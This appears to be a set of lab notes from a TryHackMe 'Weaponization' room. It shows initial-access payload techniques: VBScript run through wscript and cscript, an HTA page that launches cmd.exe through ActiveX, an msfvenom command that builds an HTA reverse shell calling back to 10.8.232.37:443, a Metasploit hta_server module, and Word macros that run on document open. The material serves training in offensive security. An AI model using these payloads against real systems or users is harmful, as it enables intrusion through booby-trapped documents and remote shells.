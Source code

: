 # WScript / CScript.exe / VBS #

Dim message 

message = "Welcome to THM"

MsgBox message

Set shell = WScript.CreateObject("Wscript.Shell")

shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True

wscript c:\Users\thm\Desktop\payload.vbs

cscript.exe c:\Users\thm\Desktop\payload.vbs

wscript /e:VBScript c:\Users\thm\Desktop\payload.txt

# HTML / HTA #

<html>

<body>

<script>
	
	var c= 'cmd.exe'
	
	new ActiveXObject('WScript.Shell').Run(c);

</script>

</body>

</html>

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta

use exploit/windows/misc/hta_server

# Word Macro #

Sub Document_Open()
  
	THM

End Sub

Sub AutoOpen()
  
	THM

End Sub

Sub THM()
   
	MsgBox ("Welcome to Weaponization Room!")

End Sub
